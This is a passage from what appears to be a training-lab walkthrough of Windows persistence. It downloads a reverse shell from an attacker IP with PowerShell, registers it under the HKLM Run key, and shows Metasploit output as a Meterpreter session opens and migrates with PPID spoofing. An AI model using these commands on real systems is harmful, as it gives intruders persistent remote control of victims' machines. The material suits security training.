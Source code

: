 `iwr -UseBasicParsing -Uri 'http://10.10.39.4/reverse_shell.exe' -OutFile 'C:\Users\student\Desktop\malware\reverse_shell.exe'`

_Navigate to the directory containing the downloaded reverse shell and verify its presence._

`cd C:\Users\student\Desktop\malware`, `dir`:
```
    Directory: C:\Users\student\Desktop\malware

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        8/12/2024  10:02 AM          73802 reverse_shell.exe ←
```

_Use the Registry Editor to create a new startup entry for the reverse shell executable._

`regedit` > `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` > `New` (right-click) > `String Value`:

| Name            | Type           | Data                                               |
|-----------------|----------------|----------------------------------------------------|
| (Default)       | REG_SZ         | (value not set)                                    |
| HFS HTTP Server | REG_SZ         | "C:\Program Files\HTTPServer\hfs.exe"              |
| SecurityHealth  | REG_EXPAND_SZ  | %windir%\system32\SecurityHealthSystray.exe        |
| reverse_shell   | REG_SZ         | "C:\Users\student\Desktop\malware\reverse_shell.exe" ←   |

<span style="color: #64b5f6;">**Target (victim) machine: `Administrator` privilege**</span>.

_Sign out from the Administrator account to trigger the startup programs, including the reverse shell._

`whoami`:
```
priv-esc\administrator ←
```

`shutdown /l`

<span style="color: #e57373;">**Attacker machine**</span>.

_Wait for the target machine to connect back to the Metasploit handler, establishing a Meterpreter session._

```
[*] Sending stage (176195 bytes) to 10.4.17.192
[*] Meterpreter session 1 opened (10.10.39.4:4444 -> 10.4.17.192:49988) at 2024-08-12 15:41:38 +0530 ←
[*] Session ID 1 (10.10.39.4:4444 -> 10.4.17.192:49988) processing InitialAutoRunScript 'post/windows/manage/migrate'
[*] Running module against PRIV-ESC
[*] Current server process: malware.exe (6752)
[*] Spawning notepad.exe process to migrate into
[*] Spoofing PPID 0
[*] Migrating into 3712
[+] Successfully migrated into process 3712
```
